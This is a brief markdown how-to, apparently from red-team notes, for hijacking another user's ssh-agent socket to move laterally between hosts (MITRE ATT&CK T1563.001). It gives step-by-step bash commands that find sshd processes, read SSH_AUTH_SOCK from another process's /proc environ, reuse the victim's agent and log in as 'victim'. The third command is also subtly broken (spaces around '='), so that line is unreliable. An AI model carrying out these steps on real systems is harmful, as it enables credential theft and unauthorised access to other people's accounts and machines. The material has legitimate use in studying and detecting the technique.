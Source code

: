 # Using MITRE ATT&CK
[MITRE ATT&CK Framework](https://attack.mitre.org/techniques/T1563/001/)


# Manually
##### Step 1 - Determine SSH Process ID (PID)
```bash
ps aux | grep sshd
```
##### Step 2 - Determine SSH_AUTH_SOCK environment variable
```bash
grep SSH_AUTH_SOCK /proc/<PID>/environ
```
##### Step 3 - Hijack target's ssh-agent socket
```bash
SSH_AUTH_SOCK = /tmp/ssh-XXXXXXX/agent.XXXX ssh-add -l
```
##### Step 4 - Log into remote system
```bash
ssh remotesystem -l victim
```

# References
[Public Key Authentication](https://www.ssh.com/academy/ssh/public-key-authentication)

[Unix domain socket](https://en.wikipedia.org/wiki/Unix_domain_socket)

[SSH and ssh-agent](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=dfe66853-a519-4b96-81b6-e7cbbdfc8c53&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments)

[SSH Hijacking for lateral movement](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)